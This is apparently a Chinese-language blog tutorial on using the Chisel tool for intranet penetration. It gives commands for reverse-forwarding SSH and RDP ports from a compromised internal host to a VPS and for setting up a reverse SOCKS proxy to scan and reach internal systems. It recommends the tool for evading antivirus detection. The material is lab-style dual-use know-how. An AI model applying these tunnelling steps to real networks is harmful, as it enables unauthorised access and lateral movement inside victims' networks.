内网渗透｜Chisel内网穿透工具
一、chisel工具介绍
Chisel可用来搭建内网隧道，类似于常用的frp和nps之类的工具。由于目前使用的人比较少，因此对于有些杀软还不能准确的识别出该工具。chisel可以进行端口转发、反向端口转发以及Socks流量代理，使用go语言编写，支持多个平台使用，是进行内网穿透的一个鲜为人知的好工具。
二、chisel工具下载使用
0x01 chisel工具下载
下载地址：https://github.com/jpillora/chisel/releases/tag/v1.7.4
chisel工具是使用go语言进行编写的，可以适用于各个平台，也可以对源码进行编译，或者直接使用编译好的发行版。
0x02 chisel工具使用
首先，chisel和frp、nps是不同的，没有所谓的服务器端和客户端，对于chisel，只有一个文件，可以通过执行这个文件，让其充当服务器端或者客户端。如下所示:

(1):查看chisel工具的帮助
./chisel -help
(2):查看chisel服务器端的帮助
./chisel server -help
(3):查看chisel客户端的帮助
./chisel client -help
这块只是重点讲解一下如何查看帮助，接下来会去介绍如何在实战中使用chisel工具。
三、chisel隧道搭建
0x01 chisel进行ssh内网穿透
首先需要三台linux主机，在这里使用VPS作为chisel服务器端，然后使用kali作为内网主机，使用另一台主机作为我们的攻击者主机。如下图所示。

(1):第一步:搭建chisel隧道
chisel服务端(CentOS上)
./chisel server -p 6666 --reverse
首先，服务器端监听6666端口，然后使用reverse参数，reverse表示的是服务端使用反向模式，也就是说流量转到哪个端口由客户端指定。
chisel客户端(kali的IP为192.168.223.160)
./chisel client -v VPS:6666 R:0.0.0.0:8888:192.168.223.160:22./chisel client -v VPS:6666 R:8888:192.168.223.160:22

客户端启动成功。
说明:可以使用第一条命令，也可以使用第二条命令，其实第二条命令和第一条命令效果一样，只是省略了0.0.0.0，chisel的客户端默认使用的就是0.0.0.0这个IP。

(2):第二步:将kali的22端口转发到VPS的8888端口上
其实上一步已经完成了这一步操作，现在看一下chisel服务端和客户端的连接情况。
服务器端

客户端

SSH已经连接。
(3):第三步:使用攻击者主机连接kali的SSH
ssh -p 8888 root@VPS(chisel服务端IP)
0x02 chisel进行远程桌面代理
首先需要两台windows主机和一台VPS，在这里使用VPS作为chisel服务器端，然后使用win7作为内网主机，使用win10作为我们的攻击者主机。如下图所示。原理和ssh穿透类似。

(1):第一步:搭建chisel隧道
chisel服务端(CentOS上)
./chisel server -p 6666 --reverse
chisel客户端(win7的IP为192.168.223.151)
chisel.exe client -v VPS:6666 R:0.0.0.0:33389:192.168.223.151:3389
(2):第二步:将win7的3389端口转发到VPS的33389端口
其实上一步已经完成了这一步操作，现在看一下chisel服务端和客户端的连接情况。
服务端

客户端

(3):第三步:使用攻击者主机连接win7的3389

成功登录远程桌面。
0x03 chisel进行socks代理
Chisel现在支持socks代理，我们先看下需求，比如有两台主机，一台主机是我们的VPS，有一个公网IP，另一台主机是我们在内网中拿下的一台主机，我们需要在这台主机上配置socks代理，然后使用SocksCap等工具进行内网扫描或者内网渗透。如下图所示。

注意:这个过程看似和之前的两种方法一样，但是这里面有一个最主要的问题就是，chisel这个工具提供的socks代理默认是监听在127.0.0.1的1080端口上的。首先，需要先明确两个概念，127.0.0.1和0.0.0.0者两个IP进行监听的区别是什么？127.0.0.1监听的是本机上的所有流量，0.0.0.0监听的是所有的IP(不论是不是本机的IP)的流量。这就导致一个问题，如果我直接在VPS上执行完命令之后，默认监听127.0.0.1的1080端口，这样的话，我只能用VPS去访问内网主机，如果想要在win10上通过SocksCap设置代理访问内网是行不通的，因为刚才说过，这个127.0.0.1的1080端口只能使用VPS这台主机访问内网的win7。因此，如果想要像之前一样使用SocksCap去代理访问内网，需要再多做一步，使用ssh的本地转发功能将127.0.0.1的1080上的socks流量转发到0.0.0.0的23333端口，这样我们就可以在外部通过socks流量实现对内网主机的访问。如果不进行ssh本地转发，那么就只能在VPS上设置proxychains代理这种方法对内网实现访问，这显然非常不方便。
(1):第一步:搭建chisel隧道
chisel服务端(CentOS上)
./chisel server -p 6666 --reverse
chisel客户端(win7的IP为192.168.223.151)
chisel.exe client VPS:6666 R:socks
(2):将127.0.0.1的1080的流量转发到0.0.0.0的23333端口

本地的1080端口已经监听成功。
在VPS上使用ssh进行本地流量转发:
ssh -C -f -N -g -L 0.0.0.0:23333:127.0.0.1:1080 root@VPS
成功将127.0.0.1的1080端口上的流量转发到0.0.0.0的23333端口上，这样就可以使用socksCap或者直接在浏览器中设置代理对内网资源进行访问。
(3):使用Socks代理访问内网
使用浏览器


成功访问到内网的通达OA。
使用SocksCap进行内网访问

代理搭建成功，流量可以正常进入内网。
四、chisel的优劣点
优点：
目前像frp、nps这种常见的工具已经很容易被杀软识别，上次打内网传的frp就很快被杀软识别，因此chisel可以作为一个不太常用的工具进行尝试，可能会因为目前特征较少，从而绕过杀软。
缺点：
个人觉得chisel进行socks流量代理的时候，可能会比较麻烦，因为需要进行本地端口转发，这样难免会多进行一步，但是我觉得这个也就是一条命令的事情，个人觉得影响不大。


点赞 在看 转发